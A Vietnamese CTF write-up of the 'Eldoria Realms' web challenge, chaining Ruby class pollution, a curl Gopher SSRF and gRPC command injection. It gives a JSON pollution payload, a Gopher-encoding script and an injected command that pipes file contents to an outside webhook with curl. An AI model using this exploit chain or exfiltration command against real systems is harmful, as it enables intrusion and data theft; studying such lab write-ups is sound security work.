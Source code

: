 ```yaml
---
layout: post
title: "Eldoria Realms"
date: 2025-03-28 16:31:06 +0700
tags: [CTF, Web, SSRF, gRPC, Command-Injection]
---
```


# 🎮 Eldoria Realms - Web Challenge

> Author: tan3ora

- **Tên:** Eldoria Realms
- **Description:** A portal that allows players of Eldoria to transport between realms, take on quests, and manage their stats. See if it's possible to break out of the realm to gather more info on Malakar's spells inner workings.
- **Có source code**

---

## 🔍 Phân tích

Trang web có 2 service:

1. Website viết bằng **Ruby**
2. [gRPC Server](https://viblo.asia/p/co-ban-ve-grpc-va-cach-protobuf-ma-hoa-giu-lieu-trong-grpc-yZjJYzBDLOE)

---

### 🚨 Ruby Class Pollution qua merge đệ quy

Khi phân tích source code, ta phát hiện đoạn merge dữ liệu user như sau:

```ruby
class Adventurer
  @@realm_url = "http://eldoria-realm.htb"
  attr_accessor :name, :age, :attributes

  def self.realm_url
    @@realm_url
  end

  def initialize(name:, age:, attributes:)
    @name = name
    @age = age
    @attributes = attributes
  end

  def merge_with(additional)
    recursive_merge(self, additional)
  end

  private

  def recursive_merge(original, additional, current_obj = original)
    additional.each do |key, value|
      if value.is_a?(Hash)
        if current_obj.respond_to?(key)
          next_obj = current_obj.public_send(key)
          recursive_merge(original, value, next_obj)
        else
          new_object = Object.new
          current_obj.instance_variable_set("@#{key}", new_object)
          current_obj.singleton_class.attr_accessor key
        end
      else
        current_obj.instance_variable_set("@#{key}", value)
        current_obj.singleton_class.attr_accessor key
      end
    end
    original
  end
end
```

**Vấn đề:**  
Hàm `recursive_merge` sẽ tự tạo biến instance mới nếu key chưa tồn tại → mở ra khả năng **class pollution**.

**Tại endpoint `/merge-fates`:**

```ruby
post "/merge-fates" do
  content_type :json
  json_input = JSON.parse(request.body.read)
  random_attributes = { ... }

  $player = Player.new(
    name: "Valiant Hero",
    age: 21,
    attributes: random_attributes
  )

  $player.merge_with(json_input)
  { 
    status: "Fates merged", 
    player: { name: $player.name, age: $player.age, attributes: $player.attributes } 
  }.to_json
end
```

→ Ta có thể chỉnh sửa attribute của **superclass**:

**Payload:**
```json
{
  "class": {
    "superclass": {
      "realm_url": "attacker_url"
    }
  }
}
```

**Kết quả:** Mỗi lần truy cập `/connect-realm` → server sẽ gọi `curl attacker_url`.

---

## 🚀 Gopher SSRF → Command Injection gRPC

Trong server gRPC có function:

```go
func healthCheck(ip string, port string) error {
  cmd := exec.Command("sh", "-c", "nc -zv "+ip+" "+port)
  output, err := cmd.CombinedOutput()
  ...
}
```

Kết hợp với Dockerfile:
```
RUN wget https://curl.haxx.se/download/curl-7.70.0.tar.gz ...
```

→ Curl version dễ bị **SSRF Gopher → Raw TCP Injection**

---

## 🧨 Khai thác

**Flow:**  
`Ruby Class Pollution → Curl Gopher SSRF → gRPC Protocol → Command Injection`

### 1. Craft request gRPC

Dùng [grpcurl](https://github.com/fullstorydev/grpcurl):

```bash
grpcurl   -plaintext   -proto ./challenge/live_data.proto   -d '{"ip":";","port":"curl -d `cat /flag* | base64` <link_webhook> "}'   localhost:50051   live.LiveDataService.CheckHealth
```

**Dùng Wireshark → Follow TCP Stream để lấy raw request**

![Follow TCP Stream](http://note.bksec.vn/pad/uploads/12087ecd-b40d-45f7-90f4-64344c2e15fc.png)

---

### 2. Chuyển thành Gopher Payload

Export TCP stream → Python encode:

```python
import urllib.parse

with open("dump_raw1", "rb") as f:
    raw_data = f.read()

encoded_data = urllib.parse.quote_from_bytes(raw_data)
gopher_url = f"gopher://127.0.0.1/_{encoded_data}"

print("Gopher URL:")
print(gopher_url)
```

---

### 3. Thay đổi realm_url

Gửi request đến `/merge-fates`:

```json
{
  "class": {
    "superclass": {
      "realm_url": "gopher://127.0.0.1/_<payload>"
    }
  }
}
```

**Request thành công:**

![Pollution Payload](http://note.bksec.vn/pad/uploads/3d276f00-5528-4a3b-bb5c-377a9904d5f2.png)

---

### 4. Trigger SSRF → Command Injection

Gửi request tới `/connect-realm`:

![Trigger](http://note.bksec.vn/pad/uploads/affde1b9-2f15-4850-b871-f1b481311395.png)

---

### 5. Lấy flag

Payload thực thi lệnh:
```bash
curl -d `cat /flag* | base64` <webhook>
```

Webhook nhận về flag:

![Flag](http://note.bksec.vn/pad/uploads/cd35619e-01c9-4af1-8bde-1089b54ae0f3.png)

---

